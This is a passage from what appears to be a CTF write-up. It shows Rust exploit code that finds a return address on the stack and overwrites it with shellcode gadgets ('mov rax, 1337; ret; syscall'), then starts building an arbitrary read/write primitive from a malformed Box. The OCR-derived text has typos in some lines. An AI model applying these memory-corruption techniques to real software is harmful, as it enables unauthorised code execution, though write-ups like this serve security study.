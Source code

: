 ```rust
    println!("test");
    println!("tect");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("tcst");
    println!("test");
    println!("test");
    println!("test");
    println!("tevt");
    println!("test");
}
```
By the way, I'm sure there are better ways to prevent inlining, but it works ¯\\\_(ツ)\_/¯.

At this point, it only remains to overwrite the return address:
```rust
let a: usize = 0xdeadbeef;
// Obtain a stack address.
let mut addr = &a as *const usize as usize;
println!("stack = {:x}", addr as usize);

let mut retn: usize = 0;
loop {
    addr += 1;
    // Pray that the only address on the stack pointing to the same
    // page as our shellcode is the return address into main.
    if read(addr) & 0xfffffffffffff000
        == movrax & 0xfffffffffffff000 {
        retn = addr;
        break;
    }
}
println!("retn @ {:x}", retn);

write(retn, movrax); // mov rax, 1337; ret;
write(retn+8, syscall); // syscall;

if ($opaque_predicate) {
    return;
}
```

## About that primitive..
I finished the above about 3 hours before the CTF ended. What remained was to turn the malformed `Box<usize>` into a working `read`/`write` implementation. Because the `mk_any()` call reuses existing stack contents, my intention was to have three functions:
- `read2(addr: usize) -> usize`, which **assuming the memory in which its stack frame is created has the right contents already**, will make a `Box` and dereference it to read memory. My initial, broken version looked more or less like so:
```rust
pub fn read2(addr: usize) -> usize {
    let b: Box<usize> = mk_any();

    let x = *b;
    if addr & MSB_MASK == 0 {
        // Make sure not to drop b, it's not actually
        // a valid heap allocation.
        std::mem::forget(b);
```